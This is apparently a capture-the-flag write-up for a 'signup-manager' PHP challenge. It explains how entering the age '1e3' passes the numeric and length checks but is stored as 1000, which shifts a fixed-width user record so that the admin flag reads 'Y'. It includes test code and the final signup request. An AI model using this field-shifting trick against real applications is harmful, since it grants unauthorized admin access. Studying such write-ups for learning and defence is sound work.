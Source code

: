 When you navigate to the page logged in, your user information gets plucked from `users.txt` via this method. We can see that the server expects everything to be defined nicely at the proper index offsets in the line. The padding characters get stripped, and very interestingly, index 112 determines whether or not the user was an admin. If we can get a `Y` to appear here, the system will think we are an admin.

## Making the Exploit
The validation is set in a way that even if we use the maximum number of characters for every field, and make all the letter characters Ys, we still won't be writing to the index that determines if we are an admin. I ran the code locally to test this:

```php
$maximum_y = str_repeat('Y', 15);
$user_str = addUser($maximum_y, md5('this will always be 32 characters'), "999", $maximum_y, $maximum_y);
echo $user_str . PHP_EOL;
echo 'Admin: ' . substr($user_str, 112, 1);
```
Output:
```
YYYYYYYYYYYYYYY9328d34dc87490369be5eec81dd91850b789dbf9d91f073744ed55c765825ead999YYYYYYYYYYYYYYYYYYYYYYYYYYYYYYN
Admin: N
```

We need a way to trick the validation into letting us save just one extra chracter in our input to push the N away, and let us use our Y instead.

The age processing in the validation stood out to me because the data that gets saved isn't exactly the same as the data that gets validated. Pasting it again here:

```php
if (!is_numeric($_POST["age"])) {
    $errors[] = 'Age entered is invalid';
}
if (strlen($_POST["age"]) > 3) {
    $errors[] = 'Age entered is too long';
}
$age = intval($_POST["age"]);
```
`$_POST["age"]` has our age as a string. `is_numeric` checks that it can be interpreted as an integer. We then check it's string length, and then save it _as an integer_. I looked at the [documentation of is_numeric](https://www.php.net/manual/en/function.is-numeric), and saw that it accepts a bunch of formats as numeric, such as binary, hexadecimal, or scientific notation. Running a few tests I found out that I could set my age to `1e3`. This value passes the `is_numeric` check, has a string length of 3 which passes, but saves as it's integer value, `1000`. This will give us the one character we need to push the pesky `N` away.

## Running the Exploit


**Request:**
```
POST /signup-manager/
action=signup&username=q38&password=123&age=1e3&firstname=123&lastname=aaaaaaaaaaaaaaY
```
